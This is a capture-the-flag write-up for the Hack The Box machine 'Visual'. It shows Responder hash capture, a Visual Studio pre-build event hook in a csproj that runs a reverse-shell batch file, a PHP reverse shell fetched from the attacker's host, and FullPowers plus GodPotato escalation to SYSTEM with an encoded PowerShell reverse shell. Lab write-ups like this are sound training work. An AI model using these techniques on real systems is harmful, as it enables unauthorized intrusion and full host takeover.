









## Enumeration
Initial nmap:
```
Nmap scan report for 10.129.144.164
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
```
Visiting the website, we see details on a Visual Studio project:

On the home page, we see interesting options at the bottom including a submission form to provide our own repo:


When we provide our system's IP address, we will receive a connection:
```
┌──(kali㉿kali)-[~/Documents/visual]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.144.164] 49672
GET /repo/info/refs?service=git-upload-pack HTTP/1.1
Host: 10.10.14.134
User-Agent: git/2.41.0.windows.1
Accept: */*
Accept-Encoding: deflate, gzip, br, zstd
Pragma: no-cache
Git-Protocol: version=2
```

Using responder, we can receive an NTLM hash:
```
┌──(kali㉿kali)-[~/Documents/visual]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

<...SNIP...>
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.129.144.164
[HTTP] NTLMv2 Username : VISUAL\enox
[HTTP] NTLMv2 Hash     : enox::VISUAL:49ed5e7eb09d8a6d:6A0C757814963C7E2CF4D97DE665A407:010100000000000098A826EAA6F4D9018E894BC5012324680000000002000800300058005600370001001E00570049004E002D00460053003500550036005900590043004A00470047000400140030005800560037002E004C004F00430041004C0003003400570049004E002D00460053003500550036005900590043004A00470047002E0030005800560037002E004C004F00430041004C000500140030005800560037002E004C004F00430041004C000800300030000000000000000000000000300000FB112DC1D7A6EBADEFA202CE1B3B39EEC9982696A12273A639BEAB0E53B514620A001000000000000000000000000000000000000900220048005400540050002F00310030002E00310030002E00310034002E003100330034000000000000000000
```

Unfortunately, the usefulness of this retrieval is limited since only port 80 is open.
### Troubleshooting the Git Repo building
Back to the website, we are detailed an error that reveals it is searching for a `.sln` file, the core component of a visual studio project

Using a python http server, we can see the request information more clearly. This is not simply downloading a .sln file, but rather trying to clone a `git` repository. Although it may be possible to emulate a git repo from an http server with the right file configuration, this is beyond my skillset. I opted to install `Gitea` locally, so I can host my own server that  the machine can pull from. 
Note that these HTB machines are isolated from the broad internet, so pulling from a public web service like github will not be possible. 
```
┌──(kali㉿kali)-[~/Documents/visual]
└─$ python -m http.server 80                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.144.164 - - [01/Oct/2023 16:52:44] code 404, message File not found
10.129.144.164 - - [01/Oct/2023 16:52:44] "GET /info/refs?service=git-upload-pack HTTP/1.1" 404 -
```

To set up gitea, I followed [the preparations from this post.](https://docs.gitea.com/installation/database-prep) The gitea binary/setup was retrieved from their main site, https://about.gitea.com/. There are many release versions to select, so be sure it matches your system requirements.
#### Setting up a self-hosted Gitea server
Before anything, it is necessary to initialize mysql:
```
┌──(kali㉿kali)-[~]
└─$ sudo service mysql start
```
Next, we can enter mysql by invoking sudo:
```
┌──(kali㉿kali)-[~/Documents/visual/test3/MyApp]
└─$ sudo mysql -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2506
Server version: 10.11.4-MariaDB-1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
Now, we can follow the instructions to set up a local gitea service:
```
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> CREATE USER 'gitea'@'%' IDENTIFIED BY 'gitea';
Query OK, 0 rows affected (0.019 sec)
MariaDB [mysql]> CREATE DATABASE giteadb CHARACTER SET 'utf8mb4' COLLATE 'utf8mb4_unicode_ci';
Query OK, 1 row affected (0.011 sec)
MariaDB [mysql]> GRANT ALL PRIVILEGES ON giteadb.* TO 'gitea';
Query OK, 0 rows affected (0.011 sec)
```
And now, we are ready to initialize gitea. Start by executing the extracted binary:
```
┌──(kali㉿kali)-[~/Documents/gitea]
└─$ ./gitea-1.21-linux-amd64 
2023/10/03 20:34:06 cmd/web.go:242:runWeb() [I] Starting Gitea on PID: 66899
<...SNIP...>
2023/10/03 20:34:06 cmd/web.go:304:listen() [I] Listen: http://0.0.0.0:3000
2023/10/03 20:34:06 cmd/web.go:308:listen() [I] AppURL(ROOT_URL): http://localhost:3000/
2023/10/03 20:34:06 ...s/graceful/server.go:70:NewServer() [I] Starting new Web server: tcp:0.0.0.0:3000 on PID: 66899
```
This execution sets the gitea service on port 3000. Before we can start running, we need to configure it to use our MySQL server. Below is the completed form for myself. Note the password will be whatever you made the IDENTIFIED BY parameter during the database setup. In this scenario, it is `gitea`.

Press "Install Gitea" at the bottom of the page, and setup will be complete.
After it all, we finally have our own gitea service set up and running:

Now we can put whatever we want for an account, host our own repos, and even share them with whoever can access our system. Since I made this with the exclusive purpose of interacting with the box, I just made my account using the completely original `asdf` credentials.
#### Supplying a Visual Studio project
I don't typically do visual studio things, but I have an old Chip8 project that was built with visual studio. I cloned this repo, then submitted a copy to this local gitea server:

Other `.sln` sources can probably be easily obtained, or even creating one by launching Visual Studio if that is an option.
When we send this to build, we can see a new error message:



```
Build started 10/2/2023 8:19:35 AM.
Logging verbosity is set to: Detailed.Process = "C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\msbuild.exe"
<...SNIP...>
Build FAILED.

"C:\Windows\Temp\32a8f43cea993e0b28dd5c9e25ec34\Chip8.sln" (default target) (1) ->
(Build target) -> 
  C:\Windows\Temp\32a8f43cea993e0b28dd5c9e25ec34\Chip8.sln.metaproj : error MSB3202: The project file "C:\Windows\Temp\32a8f43cea993e0b28dd5c9e25ec34\Chip8\Chip8.csproj" was not found. [C:\Windows\Temp\32a8f43cea993e0b28dd5c9e25ec34\Chip8.sln]

    0 Warning(s)
    1 Error(s)

Time Elapsed 00:00:00.34
```
For whatever reason, it is unable to find dependencies in the Chip8 folder.. After moving files around and trying other simple renaming tactics, I was unable to get the Chip8 emulator to build. 
#### Creating a simple dotnet project
Next, I opted for a more simple project starting with a [basic dotnet tutorial](https://dotnet.microsoft.com/en-us/learn/dotnet/hello-world-tutorial/intro):
```
┌──(kali㉿kali)-[~/Documents/visual/test2]
└─$ dotnet new console -o MyApp -f net6.0
The template "Console App" was created successfully.

Processing post-creation actions...
Running 'dotnet restore' on /home/kali/Documents/visual/test2/MyApp/MyApp.csproj...
  Determining projects to restore...
  Restored /home/kali/Documents/visual/test2/MyApp/MyApp.csproj (in 126 ms).
Restore succeeded.
┌──(kali㉿kali)-[~/Documents/visual/test2]
└─$ cd MyApp 
                                                                                                                    
┌──(kali㉿kali)-[~/Documents/visual/test2/MyApp]
└─$ ls
MyApp.csproj  obj  Program.cs
```
Trying to build now will result in an error about missing the `sln` file, so I grabbed the Chip8.sln file from earlier, and fixed the names to "MyApp":
```
Microsoft Visual Studio Solution File, Format Version 12.00
# Visual Studio 15
VisualStudioVersion = 15.0.28010.2050
MinimumVisualStudioVersion = 10.0.40219.1
Project("{FAE04EC0-301F-11D3-BF4B-00C04F79EFBC}") = "MyApp", "MyApp.csproj", "{740C32CA-9964-445F-8514-062C4228FD28}"
EndProject
Global
	GlobalSection(SolutionConfigurationPlatforms) = preSolution
		Debug|Any CPU = Debug|Any CPU
		Release|Any CPU = Release|Any CPU
	EndGlobalSection
	GlobalSection(ProjectConfigurationPlatforms) = postSolution
		{740C32CA-9964-445F-8514-062C4228FD28}.Debug|Any CPU.ActiveCfg = Debug|Any CPU
		{740C32CA-9964-445F-8514-062C4228FD28}.Debug|Any CPU.Build.0 = Debug|Any CPU
		{740C32CA-9964-445F-8514-062C4228FD28}.Release|Any CPU.ActiveCfg = Release|Any CPU
		{740C32CA-9964-445F-8514-062C4228FD28}.Release|Any CPU.Build.0 = Release|Any CPU
	EndGlobalSection
	GlobalSection(SolutionProperties) = preSolution
		HideSolutionNode = FALSE
	EndGlobalSection
	GlobalSection(ExtensibilityGlobals) = postSolution
		SolutionGuid = {45D5498A-0A7F-455B-B1DD-4A93EFD46DE3}
	EndGlobalSection
EndGlobal
```
Now when we submit this repo for building, the build will pass! We are given the following files in return:

Now we can have the service build executables for us, but how can this be abused? The key hint is the emphasis on using visual studio. 
### Exploiting VS's pre-build event
Visual Studio supports [pre-build event execution](https://learn.microsoft.com/en-us/visualstudio/ide/reference/pre-build-event-post-build-event-command-line-dialog-box?view=vs-2022) that we can use to execute our own malicious scripts. The easiest way to do so is use Visual Studio's GUI, however I do not have this installed. I used [this article](https://learn.microsoft.com/en-us/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022) as a reference to introduce manually. Very simply, we can add a reverse shell `bat` file to our repository, and edit the `csproj` file to call the file. `MyApp2.csproj`:
```xml
<Project Sdk="Microsoft.NET.Sdk">

<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="call prebuild.bat" />
</Target>

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```
The new repository:

Now when this is submitted for building, I receive a connection on my `nc` listener:
```
┌──(kali㉿kali)-[~/Documents/visual/test4/MyApp2]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.139.209] 49710
whoami                                                                                                              
visual\enox                                                                                                         
PS C:\Windows\Temp\b492bdbeb505f5afab24f97c093323> 
```
## Lateral Movement
After some enumeration, there isn't much to be done with user `enox`, so I decide to insert a php reverse shell into the webroot directory. For Windows machines, service accounts will very commonly have the `SeImpersonate` privilege, which can be used in a potato attack to reach `NT Authority/SYSTEM` level privileges. The reverse shell used was obtained from https://github.com/Dhayalanb/windows-php-reverse-shell/tree/master
```
PS C:\xampp\htdocs> wget 10.10.14.134/rev.php -outfile rev.php
```
Now upon visiting the page at `http://10.10.139.209/rev.php`, we receive a connection back:
```
┌──(kali㉿kali)-[~/Documents/visual]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.145.35] 49674
b374k shell : connected

Microsoft Windows [Version 10.0.17763.4840]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\temp2>whoami
whoami
nt authority\local service
```
We are now `NT Authority\local service`, but unfortunately this does not have the same powers as `NT Authority\System`. In addition to low filesystem permissions, we have very limited privileges:
```
C:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
## Privilege Escalation
Fortunately, there is a way to improve our privilege access. [FullPowers](https://github.com/itm4n/FullPowers) is a tool we can use to recover the default privilege set of a service account, including SeImpersonate privilege. If we acquire this, we can launch a potato-style attack. Using FullPowers.exe:
```
C:\temp2>.\FullPowers.exe
.\FullPowers.exe
[+] Started dummy thread with id 2444
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```
After launching, SeImpersonatePrivilege is now present, and we can achieve full system compromise through [GodPotato](https://github.com/BeichenDream/GodPotato).
Using GodPotato.exe, I execute a `bat` file consisting of a base64-encoded reverse shell:
```
C:\temp2>.\gp.exe -cmd "C:\temp2\rev.bat"
.\gp.exe -cmd "C:\temp2\rev.bat"
[*] CombaseModule: 0x140705454620672
[*] DispatchTable: 0x140705456926832
[*] UseProtseqFunction: 0x140705456303008
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\2d864ad4-a01d-4f46-a771-5551b936f542\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008402-1318-ffff-b73e-c6eaecf7b199
[*] DCOM obj OXID: 0xa2eebb464a7a9dc0
[*] DCOM obj OID: 0x1b73e71602e012f3
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 872 Token:0x800  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3388

C:\temp2>powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQ<...SNIP...>
```
Meanwhile on my listener:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.145.35] 49681
whoami
nt authority\system
PS C:\temp2>
```
Now we have full access to the system.
## Reflection
True to their advertisements, Gitea did indeed turn out to be extremely simple and painless to set up. It was a great new opportunity to explore something new, and the pre-build event configuration was a very interesting practice to learn about. The privilege escalation was rather simple, making this box one of the easier Medium difficulty challenges I've experienced.
